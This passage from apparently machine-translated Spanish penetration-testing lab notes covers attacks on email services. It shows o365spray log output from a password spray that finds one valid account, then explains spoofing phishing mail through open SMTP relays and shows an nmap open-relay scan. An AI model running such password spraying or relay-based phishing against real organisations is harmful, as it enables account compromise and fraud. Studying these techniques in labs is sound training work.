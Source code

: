```
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO :

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1

```

---

# **Ataques específicos del protocolo**

Un relé abierto es un protocolo simple de transferencia de correo (`SMTP`) servidor, que está configurado incorrectamente y permite un relé de correo electrónico no autenticado. Los servidores de mensajería que se configuran accidentalmente o intencionalmente como relés abierto permiten que el correo de cualquier fuente se redirice de manera transparente a través del servidor de retransmisión abierto. Este comportamiento enmascara la fuente de los mensajes y hace que parezca que el correo se originó desde el servidor de relé abierto.

### **Relé abierto**

Desde el punto de vista de un atacante, podemos abusar de esto por el phishing enviando correos electrónicos como usuarios inexistentes o falsificando el correo electrónico de otra persona. Por ejemplo, imagine que estamos apuntando a una empresa con un servidor de correo de retransmisión abierto, e identificamos que usan una dirección de correo electrónico específica para enviar notificaciones a sus empleados. Podemos enviar un correo electrónico similar usando la misma dirección y agregar nuestro enlace de phishing con esta información. Con el`nmap smtp-open-relay`Script, podemos identificar si un puerto SMTP permite un relé abierto.

Atacando servicios de correo electrónico

```
xnoxos@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)

```
